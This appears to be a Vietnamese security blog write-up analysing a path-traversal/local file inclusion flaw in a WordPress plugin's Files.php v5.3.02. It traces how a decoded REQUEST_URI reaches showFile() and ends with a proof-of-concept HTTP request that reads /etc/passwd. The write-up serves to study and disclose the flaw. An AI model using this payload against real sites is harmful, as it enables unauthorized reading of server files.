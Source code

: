 ```php {filename="Files.php v5.3.02" hl_lines=[3,7,10]}
public function maybeShowNotFound() {
    //If the file doesn't exist
    //show the file content
    if ( is_404() ) {
        $this->showFile( $this->getCurrentURL() );
    } else {
        $this->maybeShowLogin( $this->getCurrentURL() );
    }

}
```

`showFile()` được `maybeShowNotFound` nếu client request đến tài nguyên không tồn tại với tham số là kết quả trả về của `getCurrentURL()`.

```php {filename="Files.php v5.3.02" hl_lines=[8]}
public function getCurrentURL() {
    $url = '';

    if ( isset( $_SERVER['HTTP_HOST'] ) ) {
        // build the URL in the address bar
        $url = is_ssl() ? 'https://' : 'http://';
        $url .= $_SERVER['HTTP_HOST'];
        $url .= rawurldecode( $_SERVER['REQUEST_URI'] );
    }

    return $url;
}
```

`URI` lấy từ `$_SERVER['REQUEST_URI']` được decode rồi concat vào `$url` để trả về.

Ta đặt debug trong hàm `showFile()` và gửi request đến tài nguyên không tồn tại.

```http
GET /x/wp-activate.php? HTTP/1.1
Host: localhost
```

Debugger đã nhảy đến `showFile()`

{{< figure src="debug1.png" caption="Debugger nhảy đến `showFile()`" >}}

## Exploit
### Proof of Concept (PoC)

Gửi request với LFI payload

```http
GET /x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/etc/passwd? HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
Content-Length: 0
```
